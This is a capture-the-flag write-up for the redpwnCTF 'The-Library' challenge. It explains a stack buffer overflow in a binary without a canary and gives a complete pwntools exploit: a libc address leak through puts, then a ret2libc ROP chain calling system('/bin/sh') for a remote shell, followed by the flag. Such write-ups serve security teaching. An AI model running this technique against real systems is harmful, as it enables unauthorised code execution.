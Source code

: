 # The-Library
Pwn, 424

> There's not a lot of useful functions in the binary itself. I wonder where you can get some...
>
> nc 2020.redpwnc.tf 31350

The description seems to be pointing us in the direction of using libc functions to get a shell. Moreover, a libc is included.

In the given C source, there is a pretty obvious buffer overflow: `read` reads in up to 0x100 characters from stdin, but the `name` char array only holds 16 characters.

Running `pwn checksec the-library` gives us:
```
[*] '/home/boshua/the-library/the-library'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No canary, so bof must be the way to go.

`system` is not in the plt, so I first leaked libc. To do so, I ret2plt'd to print out the address of `__libc_start_main`, which is at a constant offset from the libc base address.

Then, I found out the given libc has the string `/bin/sh` in it, so I used a `pop rdi` gadget to give `system` the pointer to that string (since the binary is 64 bit).

Finally I had to align the stack by prepending a `ret` gadget before the rest of my payload.

```python
from pwn import *

test = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUUVVVV"

p = remote("2020.redpwnc.tf", 31350)
#p = process("./the-library-binary")
e = ELF("./the-library")
LIBC = ELF("./libc.so.6")
LIBC_START_MAIN_ADDR = e.symbols["__libc_start_main"]
rop = ROP(e)

#gdb.attach(p,'''break * main
#break * read
#''')

PUTS_ADDR = e.symbols["puts"]
MAIN_ADDR = e.symbols["main"]
POP_RDI_RET = 0x0000000000400733
RET = 0x0000000000400506

p.recvuntil("?")

exploit = "A"*24

exploit += p64(POP_RDI_RET) + p64(LIBC_START_MAIN_ADDR) + p64(PUTS_ADDR) + p64(MAIN_ADDR)

p.sendline(exploit)

p.recvline()
p.recvline()
p.recvline()

t = p.recvline().strip()
print("t: ", t)

leak = u64(t.ljust(8, "\x00"))

print("leak: ", leak)

LIBC.address = leak - LIBC.sym["__libc_start_main"]
print("libc addr: ", hex(LIBC.address))


SYSTEM_ADDR = LIBC.sym["system"]

BINSH_STR = next(LIBC.search("/bin/sh"))

exploit2 = "A"*24
exploit2 += p64(RET) + p64(POP_RDI_RET) + p64(BINSH_STR) + p64(SYSTEM_ADDR)

p.sendline(exploit2)
p.interactive()
```

Flag: `flag{jump_1nt0_th3_l1brary}`